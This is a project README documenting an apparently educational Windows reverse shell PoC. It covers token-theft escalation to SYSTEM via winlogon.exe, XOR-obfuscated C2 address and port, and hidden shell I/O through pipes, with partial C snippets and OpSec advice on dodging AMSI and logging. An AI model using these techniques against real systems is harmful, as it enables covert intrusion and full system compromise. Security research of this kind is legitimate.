

# Windows Privilege Escalation & Reverse Shell PoC

> **Disclaimer:** This repository contains documentation and analysis of a custom Proof of Concept (PoC) tool developed for educational purposes and security research. The full source code is intentionally omitted to prevent misuse. This project demonstrates understanding of Windows Internals, WinAPI interaction, and low-level socket programming.

## 📌 Project Overview
This project is a custom implementation of a **Reverse Shell** written in **C/C++**, featuring built-in **Privilege Escalation** capabilities. The tool is designed to bypass standard user limitations by manipulating Windows Access Tokens, effectively elevating the payload execution context from a standard user to `NT AUTHORITY\SYSTEM`.

The primary goal of this research was to explore:
* **Windows API & Handle Manipulation**
* **Token Impersonation & Duplication** (`Advapi32.lib`)
* **Manual Socket Management** (`Ws2_32.lib`)
* **Process Injection Techniques**

## ⚙️ Key Features

### 1. Dual-Mode Architecture
To maintain operational security (OpSec), the code allows for two compilation modes defined by preprocessor directives:
* **Generator Mode (`BUILD_MODE 0`):** A utility helper that encrypts configuration strings (IP/Port) locally.
* **Attack Mode (`BUILD_MODE 1`):** The final payload that contains only the obfuscated strings and the execution logic.

### 2. String Obfuscation (XOR)
To evade static analysis and basic signature detection, all sensitive strings (C2 IP address and Port) are encrypted at rest.
* **Algorithm:** Custom XOR implementation.
* **Runtime Behavior:** Strings are decrypted in memory only at the moment they are needed for the connection, and then wiped.

### 3. Automatic Privilege Escalation (Token Theft)
The tool identifies high-privilege processes and attempts to steal their token to spawn a new shell as SYSTEM.
* **Target:** `winlogon.exe` (System integrity process).
* **Technique:**
    1.  Enables `SeDebugPrivilege` to interact with system processes.
    2.  Enumerates running processes via `CreateToolhelp32Snapshot`.
    3.  Opens the target process and duplicates its Primary Token (`DuplicateTokenEx`).
    4.  Spawns the reverse shell using `CreateProcessWithTokenW`.

### 4. Custom I/O Pipe Handling
Instead of using standard library calls, the shell interaction is managed via Windows Pipes.
* Standard Input/Output/Error (STDIN/STDOUT/STDERR) are redirected through anonymous pipes.
* A dedicated loop forwards data between the Winsock socket and the `powershell.exe` process pipes.

---
## 🛠️ Configuration & Customization

The payload is configured to spawn `powershell.exe` by default for advanced post-exploitation capabilities. However, this can be modified to `cmd.exe` in the source code (`main.cpp`) to reduce the forensic footprint on tighter environments.

> **🛡️ OpSec Note:**
> While `powershell.exe` offers greater utility, it triggers significantly more alerts (AMSI, Script Block Logging) than `cmd.exe`. For strict evasion scenarios, recompiling with `cmd.exe` is recommended.

## 🔧 Technical Deep Dive

### The Execution Flow

Below is the logical flow of the payload execution:

1.  **Initialization:** The payload starts and decrypts its configuration.
2.  **Privilege Check:** It calls a custom `IsSystem()` function to check the current user context.
    * *If `SYSTEM`:* Proceed directly to payload execution.
    * *If `User`:* Initiate Escalation Routine.
3.  **Escalation Routine:**
    * The tool hunts for the PID of `winlogon.exe`.
    * It acquires a handle with `TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY`.
    * It relaunches itself (or the payload logic) using the stolen token.
4.  **Connection:** Finally, it establishes a TCP connection to the C2 server and spawns `powershell.exe` (hidden window).

### Execution Flow Diagram

The following diagram illustrates the internal logic of the tool when executed on a target machine:


### Code Snippet: Dual-Mode Build & Obfuscation
*Demonstrates how preprocessor directives control the build output and how strings are decrypted only at runtime:*

```c
#define XOR_KEY 0x42

// 0 = Generator (Output Encrypted Bytes), 1 = Attack (Execute Payload)
#define BUILD_MODE 1 

// Attack Mode Strings (Pasted from Generator Output)
char ENCRYPTED_IP[] = "\x73\x72\x6c\x73\x72\x72\x6c\x73\x72\x70\x6c\x75\x77";
char ENCRYPTED_PORT[] = "\x76\x76\x76\x76";

// Helper function for decryption (Symmetric XOR)
void xor_crypt_string(char* input, int len, char* output) {
    for (int i = 0; i < len; i++) {
        output[i] = input[i] ^ XOR_KEY;
    }
    output[len] = '\0';
}

// ... Inside Payload Logic ...
// Decrypt strings at runtime
xor_crypt_string(ENCRYPTED_IP, (int)strlen(ENCRYPTED_IP), decrypted_ip);
xor_crypt_string(ENCRYPTED_PORT, (int)strlen(ENCRYPTED_PORT), decrypted_port_str);
```

### Code Snippet: Token Manipulation Logic
*A snippet demonstrating the logic used for token duplication (Sanitized for display):*

```c
// Enabling necessary privileges for token manipulation
EnablePrivilege(SE_DEBUG_NAME);
EnablePrivilege(SE_ASSIGNPRIMARYTOKEN_NAME);
EnablePrivilege(SE_INCREASE_QUOTA_NAME);
EnablePrivilege(SE_IMPERSONATE_NAME);

// ... Finding target process logic ...

// Duplicating the token to create a Primary Token for new process creation
if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken)) {
    HANDLE hDup;
    DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &hDup);
    // hDup is now a valid SYSTEM token ready for CreateProcessWithTokenW
}
```

### Code Snippet: Process Spawning via Pipes
*Shows how the shell process is spawned with redirected I/O pipes and a hidden window context using the elevated token:*

```c
HANDLE hStdInRead, hStdInWrite;
HANDLE hStdOutRead, hStdOutWrite;
STARTUPINFOA si;
PROCESS_INFORMATION pi;
char cmd[] = "cmd.exe /Q";

// Creating pipes for STDIN and STDOUT/STDERR
CreatePipe(&hStdInRead, &hStdInWrite, &sa, 0);
CreatePipe(&hStdOutRead, &hStdOutWrite, &sa, 0);

memset(&si, 0, sizeof(si));
si.cb = sizeof(si);
// Hiding the window and redirecting handles
si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
si.wShowWindow = SW_HIDE;
si.hStdInput = hStdInRead;
si.hStdOutput = hStdOutWrite;
si.hStdError = hStdOutWrite;

// Spawning the initial shell process with redirected I/O
if (!CreateProcessA(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi)) {
    closesocket(sock);
    return;
}
```
